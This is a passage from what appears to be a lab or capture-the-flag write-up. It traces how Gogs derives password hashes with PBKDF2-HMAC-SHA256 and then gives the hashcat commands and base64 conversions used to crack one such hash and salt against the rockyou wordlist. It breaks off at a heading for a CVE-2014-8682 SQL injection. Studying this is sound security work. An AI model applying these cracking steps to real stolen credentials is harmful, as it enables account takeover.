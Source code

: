 ```go
		newUser := &User{Passwd: passwd, Salt: u.Salt}
		newUser.EncodePasswd()
		if u.Passwd != newUser.Passwd {
			return nil, ErrUserNotExist
		}
		return u, nil
        ...
        snip
```

So the actual encoding function is here: 
```go
// use pbkdf2 encode password
func EncodePassword(rawPwd string, salt string) string {
	pwd := PBKDF2([]byte(rawPwd), []byte(salt), 10000, 50, sha256.New)
	return hex.EncodeToString(pwd)
```

## Cracking our own PBKDF2-HMAC-SHA256
which corresponds to this: 
```bash
hashcat -h|grep -i pbkdf2|head -4
  11900 | PBKDF2-HMAC-MD5                                     | Generic KDF
  12000 | PBKDF2-HMAC-SHA1                                    | Generic KDF
  10900 | PBKDF2-HMAC-SHA256                                  | Generic KDF
  12100 | PBKDF2-HMAC-SHA512                                  | Generic KDF
```

[https://forum.hashkiller.io/index.php?threads/help-identifying-this-hash.38156/](https://forum.hashkiller.io/index.php?threads/help-identifying-this-hash.38156/)  

found the expected hashcat format in the link above,  
we need to transform the hex hash to b64  
```
printf 'bc356f2eac41c08e9811d4525fa7bc50b7cea2ae07d82cc2cb95412807e17736525dcfc96f6f71e5e65b66e3f73da7399761'|xxd -p -r|base64
vDVvLqxBwI6YEdRSX6e8ULfOoq4H2CzCy5VBKAfhdzZSXc/Jb29x5eZbZuP3Pac5l2E=
```

transform the salt to b64  
```
printf 'LEdiEU0Wob'|base64
TEVkaUVVMFdvYg==
```
```
hashcat -m 10900 sha256:5000:<b64-salt>:<b64-hash> wordlist
hashcat -m 10900 sha256:10000:TEVkaUVVMFdvYg==:vDVvLqxBwI6YEdRSX6e8ULfOoq4H2CzCy5VBKAfhdzZSXc/Jb29x5eZbZuP3Pac5l2E= /usr/share/wordlists/rockyou.txt
```
ok, so we now know what we need to extract with the SQLi and how to crack the password


## Manual Union SQLi - CVE-2014-8682
